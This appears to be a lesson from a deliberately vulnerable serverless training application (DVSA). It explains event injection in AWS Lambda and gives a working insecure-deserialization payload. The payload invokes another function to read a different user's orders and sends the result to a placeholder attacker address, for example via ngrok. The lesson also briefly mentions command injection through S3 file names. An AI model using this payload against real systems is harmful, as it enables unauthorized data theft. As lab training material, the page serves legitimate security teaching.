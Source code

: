## LESSON #1: Event Injection

### (1.1) Code Injection via API Gateway
The application sends all request to an API GW (*https://{string}.execute-api.{region}.amazonaws.com/{stage}/order*). 
All reqursts end up being handled by Lambda function, which invokes another lambda based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-/serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the functioin.
```$$ND_FUNC$$_function (){}()```

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```
Where the *12312312-1233-1233-1233-123123123123* is the user-id of the user we want to steal the data from, and *<ATTACKER_REMOTE_ADDRESS>* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

The result will be a url-encoded json with the order information we stole:
![alt ngrok](https://i.imgur.com/RjT10B4.png)

After decode it, we get a JSON with the user orders. For example:
```
{"StatusCode":200,"ExecutedVersion":"$LATEST","Payload":"{\"status\": \"ok\", \"orders\": [{\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"37e149f9-7fd5-4eff-8214-39ed05305d29\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"01c9f783-1ddd-42b4-b6e4-d8dfe18b7807\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"5679749f-7a44-4c15-b8db-360a988e82e7\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"fff385ef-0000-fafa-0000-87ee1047dfff\"}]}"}
```

The above exmaple is the least of problems you can do with such an attack. Notice that there also admin functions :)




- - - 
### (1.2) Command Injection via S3 bucket
Event injections are not all about API calls and in serverless application, the source of the injection could be an email (file, subject, etc.), an MQTT pub/sub or any other cloud-resource event.

In this case, the DVSA is vulnerable to Command Injection via file name. The file is processed when uploaded to an S3 bucket. Since the bucket is configured insecurely, we can exploit it. 

To learn about this exploit, visit [Lesson #3: Insecure Cloud Configuration](../LESSIONS/LESSON_03.md).


